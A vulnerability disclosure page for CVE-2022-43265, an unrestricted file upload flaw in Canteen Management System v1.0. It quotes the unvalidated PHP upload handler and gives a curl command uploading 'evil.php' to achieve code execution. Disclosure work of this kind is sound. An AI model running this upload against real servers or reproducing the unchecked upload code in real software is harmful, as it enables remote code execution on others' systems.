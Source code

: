 ```yaml
---
cve: "CVE-2022-43265"
title: "Unrestricted File Upload in Canteen Management System"
images: [/images/cve-mitre.png]
date: 2022-11-11
tags:
- cve
- file upload
---
```

An arbitrary file upload vulnerability in the component `/pages/save_user.php` of Canteen Management System v1.0 allows attackers to execute arbitrary code via a crafted PHP file.
<!--more-->

- mitre: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-43265
- project page: https://www.sourcecodester.com/php/15688/canteen-management-system-project-source-code-php.html

<hr />

**Description:**  
Canteen Management System allows unrestricted file upload. An attacker user could craft a `multipart/form-data` request to upload a malicious PHP script.
This could lead to a OS Command Execution.

**Details:**  
File: `/assets/pages/save_user.php`  
```php
$image = $_FILES['image']['name'];
$target = "../uploadImage/Profile/".basename($image);

if (move_uploaded_file($_FILES['image']['tmp_name'], $target)) {
    $msg = "Image uploaded successfully";
}else{
    $msg = "Failed to upload image";
}
```

**Step to reproduce:**  
```bash
curl -I -F "image=@evil.php" "http://www.example.com/assets/pages/save_user.php"
```

The server replies with a status code `500` due to all PHP errors in the code but the file is successfully uploaded.


**PoC:**  
![cve-2022-9999](/images/cve-2022-43265.png)
